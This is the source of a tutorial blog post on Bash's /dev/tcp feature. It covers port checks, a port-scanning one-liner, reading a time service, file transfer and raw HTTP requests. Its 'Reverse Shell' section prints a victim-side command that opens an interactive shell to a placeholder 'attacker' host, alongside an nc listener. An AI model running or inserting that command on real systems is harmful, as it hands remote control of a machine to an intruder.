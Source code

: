 ```yaml
---
layout: post
title: Bash-ing your network with /dev/tcp
excerpt: In Bash, `/dev/tcp` is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.

Using `/dev/tcp`, you can open a network socket and read from or write to it, similar to how you would read from or write to a file. This feature is primarily available in Bash shells on Unix-like systems.

It can be accessed for multiple reasons but the basic operation of it is to open a raw TCP stream.
/dev/udp is also valid.
author: stefanos_kalandaridis
categories:
- troubleshooting
- networking
- security
tags:
- bash
- networking
- http
- security
---
```

## /dev/tcp is a file descriptor of bash shell

In Bash, `/dev/tcp` is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.

Using `/dev/tcp`, you can open a network socket and read from or write to it, similar to how you would read from or write to a file. This feature is primarily available in Bash shells on Unix-like systems.

It can be accessed for multiple reasons but the basic operation of it is to open a raw TCP stream.
/dev/udp is also valid.

- [Port Scanning](#port-scanning)
- [Read TCP stream](#read-tcp-stream)
- [File Transfer](#file-transfer)
- [Reverse Shell](#reverse-shell)
- [HTTP Requests](#http-requests)

### Port scanning
#### One of the most common uses of it is to check if a port is open in a remote host
```
timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/7777 && echo "open" || echo "closed"
```

#### This can be extremely usefull in cases where a machine/container doesn't have nc, curl, wget or any other utility to check for network connection
Let's say we are in a kubernetes pod that runs on a minimal image having bash. We want to check if it can communicate with a service or if the service is actually listening on a port.
```
kubectl exec -it svc/random-service -- bash
$ echo < /dev/tcp/other-service.namespace.svc.cluster.local/7777 && echo "open" || echo "closed"
```

#### You can make a port scanner with a one liner (and it's pretty fast)
```
for port in {1..8888}; do timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/$port && echo "$port/tcp open"; done
```

### Read TCP stream
#### Get the time from nist.gov
```
cat < /dev/tcp/time.nist.gov/13
```

### File Transfer
#### Sender
```
nc -lvnp 7777 < file.txt
```
#### Receiver
```
cat < /dev/tcp/sender/7777 > file.txt
```

#### Alternatively 

#### Receiver
```
nc -lvnp 7777 > file.txt
```
#### Sender
```
cat file.txt > /dev/tcp/receiver/7777
```

### Reverse Shell
#### Attacker
```
nc -lvnp 7777
```
#### Victim
```
bash -c 'bash -i >& /dev/tcp/attacker/7777 0>&1'
```

### HTTP Requests
#### Fetching the `www.google.com` page
```
exec 5<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: www.google.com\r\nConnection: close\r\n\r\n" >&5
cat <&5
```


#### References 
https://tldp.org/LDP/abs/html/devref1.html
https://w0lfram1te.com/exploring-dev-tcp